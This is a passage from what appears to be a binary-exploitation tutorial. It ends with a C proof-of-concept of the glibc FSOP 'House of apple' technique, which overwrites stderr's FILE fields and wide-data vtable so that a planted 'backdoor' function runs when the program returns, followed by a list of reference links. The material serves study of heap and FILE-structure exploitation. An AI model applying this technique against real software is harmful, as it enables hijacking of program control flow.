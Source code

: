 ``` c
    *(size_t *)(stderr2 + 0xa0) = (size_t)p1;
    
    puts("[+] step 3: change stderr->vtable to _IO_wfile_jumps");
    *(size_t *)(stderr2 + 0xd8) = _IO_wfile_jumps_addr;

    puts("[+] step 4: set stderr->_mode > 0");
    *(size_t *)(stderr2 + 0xc0) = 1;

    puts("[+] step 5: set stderr->_wide_data->_IO_write_base = 0x0");
    *(size_t *)(p1 + 0x18) = (size_t)0x0;

    puts("[+] step 6: set stderr->_wide_data->_IO_write_ptr = p2(anywhere rw)");
    *(size_t *)(p1 + 0x20) = (size_t)p2;

    puts("[+] step 7: set stderr->_wide_data->_wide_vtable = p3");
    *(size_t *)(p1 + 0xe0) = (size_t)p3;
 
    puts("[+] step 8: put backdoor at fake _wide_vtable->doallocate");
    // *(size_t *)(p3 + 0x10) = (size_t)(&backdoor);
    // *(size_t *)(p3 + 0x18) = (size_t)(&backdoor);
    // *(size_t *)(p3 + 0x20) = (size_t)(&backdoor);
    // *(size_t *)(p3 + 0x28) = (size_t)(&backdoor);
    // *(size_t *)(p3 + 0x30) = (size_t)(&backdoor);
    // *(size_t *)(p3 + 0x38) = (size_t)(&backdoor);
    // *(size_t *)(p3 + 0x40) = (size_t)(&backdoor);
    // *(size_t *)(p3 + 0x48) = (size_t)(&backdoor);
    // *(size_t *)(p3 + 0x50) = (size_t)(&backdoor);
    // *(size_t *)(p3 + 0x58) = (size_t)(&backdoor);
    // *(size_t *)(p3 + 0x60) = (size_t)(&backdoor);
    *(size_t *)(p3 + 0x68) = (size_t)(&backdoor);
    // *(size_t *)(p3 + 0x70) = (size_t)(&backdoor);
    // *(size_t *)(p3 + 0x78) = (size_t)(&backdoor);
    // *(size_t *)(p3 + 0x80) = (size_t)(&backdoor);
    // *(size_t *)(p3 + 0x88) = (size_t)(&backdoor);
    // *(size_t *)(p3 + 0x90) = (size_t)(&backdoor);
    // *(size_t *)(p3 + 0x98) = (size_t)(&backdoor);
    // *(size_t *)(p3 + 0xa0) = (size_t)(&backdoor);

    puts("[+] step 9: return to trigger backdoor func");
    return 0;
    // fflush(stderr);      // doesn't need fflush();
}
```
## 0x04. Reference
- [FSOP - glibc 2.35 에서 FSOP 하는 법(feat. House of apple )](https://reckon4.com/entry/FSOP-glibc-235-%EC%97%90%EC%84%9C-FSOP-%ED%95%98%EB%8A%94-%EB%B2%95feat-House-of-apple)
- [Play with FILE Structure - Yet Another Binary Exploit Technique](https://www.slideshare.net/slideshow/play-with-file-structure-yet-another-binary-exploit-technique/81635564)
- [FSOP 기초](https://my-repo.tistory.com/32)